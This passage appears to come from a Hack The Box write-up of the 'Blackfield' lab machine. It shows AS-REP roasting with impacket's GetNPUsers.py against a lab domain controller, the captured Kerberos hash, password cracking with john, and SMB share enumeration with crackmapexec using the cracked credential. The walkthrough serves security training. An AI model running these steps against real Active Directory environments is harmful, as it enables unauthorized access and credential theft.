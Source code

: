 I'll save these three usernames into a separate file and run `AS-REP roast` attack against them

### AS-REP Roast Attack

AS-REP roasting is a technique that allows retrieving password hashes for users that have `Do not require Kerberos preauthentication` property selected. That means that anyone can send an AS_REQ request to the DC on behalf of any of those users, and receive an AS_REP message. This last kind of message contains a chunk of data encrypted with the original user key, derived from its password.

To perform this attack, We'll use impacket's [**GetNPUsers.py**](https://github.com/SecureAuthCorp/impacket/blob/impacket_0_9_21/examples/GetNPUsers.py) which attempt to list and get TGTs for those users that have the property 'Do not require Kerberos preauthentication' set (UF_DONT_REQUIRE_PREAUTH) and generates the Output hash of vulnerable users in John's crackable format.

```shell
cfx:  ~/Documents/htb/blackfield
→ GetNPUsers.py -dc-ip 10.10.10.192 BLACKFIELD.local/ -usersfile valid_users.txt
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[-] User audit2020 doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$support@BLACKFIELD.LOCAL:5cebf69cd46e5c7124bcb340d92b1801$fe2339fbcddbb737946c78692f927f65fe699841df68df95ff630c2c19e5cbb6342327946f86567a0740b0324fcf7024c3f8f89501a0ee9d45bb7e84293a9c3d6d4fc946e045631a1327efa9ad4c6ee0b216e79bdf4164327a570300164d2ec5579798af11a1243df6268d22fc83b829e73dae3af87dae2fef68d0ed28fe6dcb0f0e053bcb69d83a2d9e29c5daf0be11124f8c93923203b69d3cd429361eb8d6a3086c760ddf2dd275113bbee480c7329043e32b7c1bef6a3b886164bdd06f721d8199ade901397212eadec5933e9a8e1a154bcd98a5087f2f335fcc474409648aad02842b0a0000eb2e2c396e3bc5043aaa8b6d
[-] User svc_backup doesn't have UF_DONT_REQUIRE_PREAUTH set
```

Output obtained shows user `support` has UF_DONT_REQUIRE_PREAUTH set and hence we got an hash, next we'll crack this hash using `john` and discover the password is `#00^BlackKnight`

- Credential `support:#00^BlackKnight`

```shell
cfx:  ~/Documents/htb/blackfield
→ john support.hash  -w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
#00^BlackKnight  ($krb5asrep$23$support@BLACKFIELD.LOCAL)
1g 0:00:00:25 DONE (2020-10-05 16:33) 0.03941g/s 565036p/s 565036c/s 565036C/s #1WIF3Y..#*burberry#*1990
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

## Pivoting: support -> audit2020

With the `support` user credentials, I ran crackmapexec to enumerate SMB shares to check if we have anything interesting but unfortunately we still don't have access to forensic share.

```shell
cfx:  ~/Documents/htb/blackfield
→ crackmapexec smb --shares 10.10.10.192 -u support -p '#00^BlackKnight'
SMB         10.10.10.192    445    DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\support:#00^BlackKnight
SMB         10.10.10.192    445    DC01             [+] Enumerated shares
SMB         10.10.10.192    445    DC01             Share           Permissions     Remark
SMB         10.10.10.192    445    DC01             -----           -----------     ------
SMB         10.10.10.192    445    DC01             ADMIN$                          Remote Admin
SMB         10.10.10.192    445    DC01             C$                              Default share
SMB         10.10.10.192    445    DC01             forensic                        Forensic / Audit share.
```